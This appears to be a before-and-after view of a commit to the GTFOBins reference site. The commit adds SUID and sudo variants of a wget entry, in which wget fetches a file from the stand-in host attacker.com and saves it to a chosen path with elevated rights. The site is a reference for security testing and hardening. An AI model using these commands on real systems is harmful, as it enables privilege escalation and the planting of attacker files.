

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add suid-enabled and sudo-enabled to curl, dd, and wget

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -12,4 +12,16 @@ functions:
         export URL=http://attacker.com/file_to_get
         export LFILE=file_to_save
         wget $URL -O $LFILE
+  suid-enabled:
+    - description: Fetch a remote file via HTTP GET request.
+      code: |
+        export URL=http://attacker.com/file_to_get
+        export LFILE=file_to_save
+        ./wget $URL -O $LFILE
+  sudo-enabled:
+    - description: Fetch a remote file via HTTP GET request.
+      code: |
+        export URL=http://attacker.com/file_to_get
+        export LFILE=file_to_save
+        sudo -E wget $URL -O $LFILE
 ---
```
Also changed, not shown: _gtfobins/curl.md (+12 -0 lines), _gtfobins/dd.md (+8 -0 lines).
